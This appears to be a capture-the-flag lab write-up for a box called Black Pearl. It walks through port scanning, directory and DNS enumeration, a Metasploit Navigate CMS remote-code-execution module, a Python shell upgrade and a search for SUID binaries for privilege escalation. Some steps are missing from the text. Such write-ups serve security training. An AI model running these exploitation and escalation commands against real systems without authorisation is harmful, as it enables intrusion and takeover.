## Nmap:

I ran the same nmap scan again

```bash
nmap -T4 -p- -A 192.168.100.131
```

### Analyzing Scan Results:

- Port:
	- 22: SSH - OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
	- 80: HTTP - nginx 1.14.2

## Port 80

We got a default webpage.

I'm going to run FFUF and Gobuster to find extra directories.

gobuster dir -u http://192.168.100.131:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.tx

I found a /secret directory.

In the page source I found an email address.

alek@blackpearl.tcm

## Port 53

Here I'm going to use a tool called dnsrecon.

```bash
dnsrecon -r 127.0.0.0/24 -n 192.168.100.128 -d blah
```

- dnsrecon
- -r this is for our range
- 127.0.0.0/24 the range we scan on the local network
- -n IP address of the box we are looking for
- -d is needed for our domain

We can see now under http://blackpearl.tcm/


I'm going to use FFUF one more time to see if we can get more information.
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://blackpearl.tcm/FUZZ
```


We can see a /navigate directory now. It gives a login screen.


### Metasploit

I'm going to use this exploit from https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/

```bash
msf > use exploit/multi/http/navigate_cms_rce
```


We need to set RHOST and VHOST
```
set RHOSTS 192.168.100.131
set VHOST blackpearl.tcm
```


We can run this exploit


We need a better shell on this machine.
We can do this with a Python script if Python is on the machine
With command:
```bash
which python
```

We can see Python on the machine


Now we can paste this script:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```


### Privilege Escalation

Now we need to get root on this machine. I decided to use linpeas to do it for me

I started an HTTP server on my attack machine to serve linpeas





Now to be able to run linpeas, input the command:



When looking through linpeas, we majorly focus on anything with the colour red or yellow.

For this particular box, we are majorly focusing on the **s** we can see highlighted in the image above.  
Now if you are familiar with permissions, you'd know we are supposed to have just r-w-x which stands for read, write and execute respectively.

But in the space permission for root we are seeing **S** which means we can run the binary as root and abuse the feature.

Input the command below to see all the permissions we can run as root and abuse in a much cleaner setting:
```bash
find / -type f -perm -4000 2>/dev/null
```
